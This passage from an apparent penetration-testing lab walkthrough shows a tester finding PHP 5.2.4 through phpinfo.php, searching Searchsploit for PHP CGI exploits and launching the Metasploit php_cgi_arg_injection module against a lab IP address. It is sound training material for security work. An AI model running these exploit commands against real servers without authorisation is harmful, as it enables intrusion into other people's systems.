 The **phpinfo.php** file reveals that **PHP 5.2.4** is running on the web server.





**Searching for exploits with Searchsploit**

Now that we have identified the exact version of PHP running on the  web server, we can utilize a tool like Searchsploit to find exploits  affecting this version of PHP.

This can be done by running the following command:

**Command:**

```
searchsploit php cgi
```

As shown in the following screenshot, the Searchsploit search reveals  quite a few exploits, however, one stands out as a potentially useful  exploit.



![3](./assets/9.png)

This exploit is available as a Metasploit framework exploit module.

We will need to start the Metasploit Framework console (msfconsole)  in order to use this exploit

```
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 10.2.19.172
run
```





![4](./assets/10.png)
